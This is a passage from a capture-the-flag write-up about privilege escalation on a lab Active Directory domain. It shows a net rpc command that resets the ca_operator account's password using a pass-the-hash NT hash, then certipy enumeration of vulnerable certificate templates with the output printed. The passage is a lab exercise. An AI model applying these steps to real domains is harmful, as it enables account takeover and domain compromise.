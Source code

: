 ## **Privilege Escalation**

### ca-operator

Going back to bloodhound we find that user `management_svc` has `GenericAll` over user `ca-operator`.

We can change the user's password using the following command.

```bash
net rpc password "ca_operator" "P@ssword123" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584" -S "certified.htb" --pw-nt-hash
```

The ca_operator doesn't have remote access to the machine.

Let's scan for vulnerable certificates.

```bash
certipy find -vulnerable -u ca_operator -p 'P@ssword123' -dc-ip 10.10.11.41 -stdout                                                 
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                                         
                                                                                               
[*] Finding certificate templates                                                              
[*] Found 34 certificate templates                                                             
[*] Finding certificate authorities                                                                                                                                                           
[*] Found 1 certificate authority             
[*] Found 12 enabled certificate templates                                                     
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA                                                                                                                           
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.                         
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP                           
[*] Got CA configuration for 'certified-DC01-CA'              
[*] Enumeration output:                                                                        
Certificate Authorities  
    CA Name                             : certified-DC01-CA                                   
    DNS Name                            : DC01.certified.htb   
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D                                                                                                                    
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue 
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
```